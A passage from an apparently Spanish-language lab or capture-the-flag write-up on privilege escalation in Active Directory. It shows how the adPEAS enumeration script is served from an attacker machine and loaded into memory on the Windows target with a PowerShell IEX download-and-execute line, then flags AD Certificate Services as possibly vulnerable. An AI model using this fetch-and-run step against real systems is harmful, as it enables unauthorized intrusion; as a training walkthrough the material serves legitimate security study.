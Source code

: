 <figure><img src="../../../../../.gitbook/assets/1442_vmware_PAJ0D2AuMY.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration

Procederemos de realizar una enumeración del AD a travñes de la herramienta **adPEAS.ps1** que es un script de Powershell (parecido a winPEAS) pero en vez de buscar malas configuraciones de Windows, hace exactamente lo mismo pero en el entorno del AD.

Nos lo descargaremos en nuestra Kali, levantaremos un servidor web con Pyton y a través de IEX en el equipo Windows, lo importaremos en memoria.

```powershell
wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1

python3 -m http.server 80

IEX (New-Object Net.WebClient).DownloadString("http:/10.10.14.14/adPEAS.ps1")

Invoke-adPEAS
```

<figure><img src="../../../../../.gitbook/assets/1443_vmware_ER2i14ECJl.png" alt=""><figcaption></figcaption></figure>

Dentro del resultado del análisis nos encuentra información sobre _Active Directory Certificate Services_ en el cual nos reporta de posiblemente sea vulnerable, y nos indica que revisemos [https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
